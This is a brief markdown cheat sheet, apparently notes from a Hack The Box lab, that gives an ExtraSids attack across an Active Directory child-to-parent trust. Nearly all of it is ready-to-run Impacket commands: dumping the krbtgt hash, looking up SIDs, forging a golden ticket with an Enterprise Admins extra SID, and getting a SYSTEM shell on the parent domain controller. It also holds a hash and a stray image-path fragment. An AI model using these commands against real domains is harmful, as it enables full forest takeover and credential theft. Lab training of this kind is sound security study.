 ```bash

lm  - 0: 6053227db44e996fe16b107d9d1e95a0

```

# ExtraSids Attack - Linux

## Retrivie the krbtgt HASH
```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```


## Retrieve the SID of the child domain

```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@10.129.116.255

```

## Retrieve the SID of the Enterprise Admins group in Parent domain

```bash

lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

```

## Constructing a Golden Ticket using ticketer.py  


```bash

ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 CappuccinoAssassino

```

## Setting the KRB5CCNAME Environment Variable
```bash
export KRB5CCNAME=CappuccinoAssassino.ccache
```

## Getting a SYSTEM shell using Impacket's psexec.py

```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/CappuccinoAssassino@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL -k -no-pass -target-ip 172.16.5.5
```
